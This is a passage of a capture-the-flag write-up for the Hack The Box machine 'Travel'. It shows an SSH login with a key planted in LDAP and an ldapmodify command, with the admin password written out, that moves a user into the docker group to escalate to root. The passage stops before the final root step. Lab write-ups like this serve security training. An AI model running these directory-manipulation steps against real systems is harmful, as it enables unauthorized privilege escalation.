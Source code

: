 With the SSH public-key added to LDAP, we can login via ssh.

```bash
root@darkness:~# ssh lynik@10.10.10.189 -i lynik.key 
Creating directory '/home@TRAVEL/lynik'.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-26-generic x86_64)

  System information as of Fri 11 Sep 2020 03:20:51 PM UTC

  System load:                      0.09
  Usage of /:                       46.0% of 15.68GB
  Memory usage:                     11%
  Swap usage:                       0%
  Processes:                        206
  Users logged in:                  1
  IPv4 address for br-836575a2ebbb: 172.20.0.1
  IPv4 address for br-8ec6dcae5ba1: 172.30.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.10.189

          *** Travel.HTB News Flash ***
We are currently experiencing some delay in domain
replication times of about 3-5 seconds. Sorry for
the inconvenience. Kind Regards, admin

lynik@travel:~$ id
uid=5000(lynik) gid=5000(domainusers) groups=5000(domainusers)
```

We are now able to login as that user, however we currently do not have any more privileges than before. As we are able to change the gid of the user, we can add the user to either the `shadow` or the `docker` group to privesc to root.

#### Changing the gid of the LDAP user to get root

Let us change the gid of lynik to docker to give us a privesc path.

```bash
lynik@travel:~$ cat /etc/group | grep docker
docker:x:117:
```

Docker's gid is `117`. Let us update the gid of `lynik` from `5000` to `117`.

```bash
lynik-admin@travel:~$ ldapmodify -h ldap.travel.htb -D cn=lynik-admin,dc=travel,dc=htb -w Theroadlesstraveled
dn: uid=lynik,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
changetype: modify
replace: gidNumber
gidNumber: 117

modifying entry "uid=lynik,ou=users,ou=linux,ou=servers,dc=travel,dc=htb"
```
